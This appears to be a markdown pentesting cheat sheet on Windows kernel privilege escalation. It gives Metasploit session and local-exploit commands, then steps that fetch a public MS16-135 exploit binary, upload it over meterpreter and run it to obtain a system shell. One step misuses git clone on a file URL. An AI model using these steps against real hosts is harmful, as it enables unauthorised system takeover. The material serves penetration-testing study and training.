 # Windows Kernel Exploits

## Explanation

- A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.

- Windows NT is the kernel that comes pre-packaged with all versions of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware : 
    - User Mode : Programs and services running in user mode have limited access to system resources and functionality.
    - Kernel Mode : Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

- Kernel exploits on Windows will tipically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.

- This process will differ based on the version of Windows being targeted and the kernel exploit being used.

- Privilege escalation on Windows systems will typically follow the following methodology : 
    - Identifying kernel vulnerabilities.
    - Downloading, compiling and transferring kernel exploits onto the target system.

## With Metasploit Framework

### Check a system for local vulnerabilities

```
msfconsole
msf6 > use post/multi/recon/local_exploit_suggester
msf6 > sessions
msf6 > set SESSION <number>
msf6 > run
```

### Run local exploit with Metasploit framework

```
msf6 > use exploit/windows/local/ms16_014_wmi_recv_notif
msf6 > set SESSION <number>
msf6 > set LPORT <port>
msf6 > run
meterpreter > getuid
meterpreter > shell
```

## With Windows Exploit Suggester

1. Clone this project : 
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

2. Run systeminfo command in your target host : 
```
C:\Temp>systeminfo
```

3. Copy/paste the systeminfo results in your Kali : 
```
cd /tmp
vim win7.txt
```

4. Run python script with your new txt file : 
```
python3 windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo /tmp/win7.txt
```

5. Check vulnerabilities, and upload exploit in your target host, for example : https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.exe

```
cd /tmp
git clone https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.exe
msfconsole
msf6 > sessions
msf6 > sessions <number>
meterpreter > cd Temp\\
meterpreter > upload /tmp/windows-kernel-exploits/MS16-135/41015.exe
```
6. Run exploit : 
```
meterpreter > shell
C:\Temp> .\41015.exe
C:\Temp> whoami
```
